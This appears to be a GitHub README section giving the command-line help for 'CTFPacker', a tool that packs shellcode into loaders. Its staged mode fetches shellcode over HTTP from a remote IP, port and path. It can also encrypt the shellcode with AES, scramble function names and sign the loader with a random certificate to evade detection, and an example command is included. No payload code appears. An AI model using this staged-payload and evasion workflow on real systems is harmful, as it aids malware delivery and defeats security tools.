 General usage:
```
usage: main.py [-h] {staged,stageless} ...

CTFPacker

positional arguments:
  {staged,stageless}  Staged or Stageless Payloads
    staged            Staged
    stageless         Stageless

options:
  -h, --help          show this help message and exit
```

Staged:

```
usage: main.py staged [-h] -p PAYLOAD -i IP_ADDRESS -po PORT -pa PATH [-o OUTPUT] [-e] [-s] [-si]

options:
  -h, --help            show this help message and exit
  -p PAYLOAD, --payload PAYLOAD
                        Shellcode to be packed
  -i IP_ADDRESS, --ip-address IP_ADDRESS
                        IP address from where your shellcode is gonna be fetched.
  -po PORT, --port PORT
                        Port from where the HTTP connection is gonna fetch your shellcode.
  -pa PATH, --path PATH
                        Path from where your shellcode uis gonna be fetched.
  -o OUTPUT, --output OUTPUT
                        Output path where the shellcode is gonna be saved.
  -e, --encrypt         Encrypt the shellcode via AES-128-CBC.
  -s, --scramble        Scramble the loader's functions and variables.
  -si, --sign           Sign the loader with a random certificate.

Example usage: python main.py staged -p shellcode.bin -i 192.168.1.150 -po 8080 -pa '/shellcode.bin' -o shellcode -e -s -si
```

Stageless:

```
usage: main.py stageless [-h] -p PAYLOAD [-o OUTPUT] [-e] [-s] [-si]

options:
  -h, --help            show this help message and exit
  -p PAYLOAD, --payload PAYLOAD
                        Shellcode to be packed
  -e, --encrypt         Encrypt the shellcode via AES-128-CBC.
  -s, --scramble        Scramble the loader's functions and variables.
  -si, --sign           Sign the loader with a random certificate.

Example usage: python main.py stageless -p shellcode.bin -e -s -si
```
